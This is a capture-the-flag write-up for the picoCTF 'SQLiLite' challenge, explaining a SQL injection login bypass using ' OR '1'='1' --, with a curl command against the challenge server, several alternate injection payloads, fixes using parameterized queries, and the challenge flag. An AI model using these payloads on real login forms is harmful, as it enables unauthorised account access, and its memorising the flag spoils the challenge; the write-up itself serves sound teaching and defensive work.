




# SQLiLite

## Description:

>Can you login to this website?


**Challenge:** Login page where putting `admin` as username and the payload `' OR '1'='1' -- ` in the password field authenticates you as admin and returns the flag.

---

## Objective

This writeup shows how a poorly written login SQL query can be bypassed using a classic injection payload that makes the `WHERE` clause always true. I demonstrate the exact payload used, why it works, how to reproduce it locally against an equivalent SQLite query, and the secure fixes to prevent it.

> Result: authentication bypass → access to the admin account → retrieve flag.

---

## Target & Setup (assumptions)

* Target is a web login form with `username` and `password` fields.
* Backend uses SQLite and constructs SQL queries by concatenating user input without proper parameterization, e.g.:

```sql
SELECT * FROM users
WHERE username = '<USERNAME>' AND password = '<PASSWORD>';
```

* The `users` table contains an `admin` row with a secret flag accessible after login.


---

## Vulnerability description (why this is vulnerable)

When the application builds SQL by directly inserting untrusted input into the query string, an attacker can inject SQL syntax that changes the semantics of the query. If the injected expression makes the `WHERE` condition always true, the database will return a row (often the first row) and the app will consider you authenticated.

---

## The Payload & Why it Works

Payload used in password field:

```
' OR '1'='1' --
```

Step-by-step transformation (example):

1. Original (safe inputs):
   `username = 'admin'`, `password = 'hunter2'`
   Query becomes:

   ```sql
   SELECT * FROM users WHERE username = 'admin' AND password = 'hunter2';
   ```
2. Inject password: `' OR '1'='1' -- `
   Query becomes (substituting `PASSWORD`):

   ```sql
   SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1' -- ';
   ```

   After `--`, the rest is a comment and ignored. Operator precedence yields:

   ```
   (username = 'admin' AND password = '') OR '1'='1'
   ```

   `'1'='1'` is always true ⇒ whole WHERE is true ⇒ query returns rows (often the first user row) ⇒ application assumes successful login.

**Important SQLite note:** `--` starts a comment in SQLite **only if followed by a space** or newline. So include a space: `-- `.

---

## Exploitation Steps (manual via web form)



enter the credentials




---

## using curl

If the form is `POST /login` with fields `username` and `password`, you can replicate:

```bash
curl -s -X POST "http://saturn.picoctf.net:50230/login.php" \
  -d "username=admin" \
  -d "password=' OR '1'='1' -- "
```




## using Brupsiut




---


## Variations & Alternate Payloads

Depending on how inputs are quoted/escaped, other payloads may be needed:

* `admin' -- `
* `' OR 1=1 -- `
* `admin' OR '1'='1`
* If single quotes are escaped, try double quotes or comment style `/* ... */`:

  * `"' OR \"1\"=\"1\" -- ` (if double quotes used)
* If the app removes `--`, use `') OR ('1'='1` to close sub-expressions.

Always remember to adjust for the exact query construction.

---

## Root cause

* **String concatenation of untrusted user input into SQL queries**.
* No input sanitization, no prepared statements, no parameterized queries.
* Application trusts the presence of a returned row as proof of correct credentials.

---

## Fixes / Mitigations (what to do to prevent this)

**1) Use parameterized queries / prepared statements (recommended):**

**Python (sqlite3)**

```python
# safe
cur.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

**PHP (PDO)**

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :u AND password = :p");
$stmt->execute([':u' => $username, ':p' => $password]);
```

**Node.js (sqlite3)**

```js
db.get("SELECT * FROM users WHERE username = ? AND password = ?", [username, password], cb);
```

**2) Use proper password hashing**

* Never store plaintext passwords. Use bcrypt / Argon2 with a per-user salt.
* Compare hashed values server-side (use constant-time compare).

**3) Least privilege & safe authentication logic**

* Do not rely on "row exists" semantics without additional checks.
* Ensure authentication uses secure session management after verification.

**4) Input validation & WAF are supplementary**

* Validation can reduce accidental injection, but the primary defense must be prepared statements.

---


final flag would be `picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`